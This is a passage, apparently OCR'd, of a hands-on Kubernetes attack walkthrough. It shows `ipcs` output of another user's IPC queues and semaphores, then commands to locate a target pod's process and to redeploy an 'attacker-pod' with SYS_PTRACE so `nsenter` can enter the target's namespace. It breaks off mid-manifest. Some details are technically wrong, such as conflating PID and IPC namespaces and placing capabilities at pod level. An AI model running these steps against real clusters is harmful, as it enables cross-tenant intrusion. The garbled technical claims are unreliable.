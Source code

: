     ------ Message Queues --------
    key        msqid      owner      perms      used-bytes   messages
    0x00000000 0          root       666        0            0
    0x00000000 32768      message    666        0            0
    0xcafe1234 65536      target_user 600        0            0

    ------ Semaphore Arrays --------
    key        semid      owner      perms      nsems
    0x00000000 0          root       666        1
    0x00000000 32768      message    666        1
    0xbaadf00d 65536      target_user 600        1
    ```

2.  **Identify the target process (if `hostIPC=false`):**

    If `hostIPC` is not set, we can't just inspect host-wide resources. We need to target the specific PID namespace of the target container. First, find the PID of the target process within the target pod.

    ```bash
    kubectl exec -it target-pod -- bash -c "pidof <target_process_name>"
    ```

    Replace `<target_process_name>` with the name of the process you want to target. For example, `nginx` or `java`.

    Expected Output:

    ```
    1234
    ```

    This returns the PID of the target process within the target pod.

3.  **Enter the target process's PID namespace (requires `CAP_SYS_PTRACE` capability and `nsenter`):**

    This is the most difficult part.  We need to "enter" the PID namespace of the target process to make `ipcs` (and other tools) operate within its context.  This is usually achieved using `nsenter`.  Unfortunately, `nsenter` is not typically pre-installed in the `ubuntu:latest` image we're using. Further, even if we install it, it usually requires `CAP_SYS_PTRACE` capability to function correctly, which the `attacker-pod` likely lacks.  We must re-deploy the pod with the necessary capability.  First delete the existing attacker-pod:

    ```bash
    kubectl delete pod attacker-pod
    ```

    Next, create a new attacker-pod with `CAP_SYS_PTRACE` and install `nsenter`. We'll use a multi-line `kubectl run` with a `postStart` lifecycle hook to install nsenter.

    ```bash
    kubectl run attacker-pod \
      --image=ubuntu:latest \
      --command -- sleep infinity \
      --overrides='
    {
      "spec": {
        "nodeSelector": {
          "kubernetes.io/hostname": "worker-node"
        },
        "securityContext": {
          "capabilities": {
            "add": ["SYS_PTRACE"]
          }
        },
        "containers": [{
          "name": "attacker-pod",
          "lifecycle": {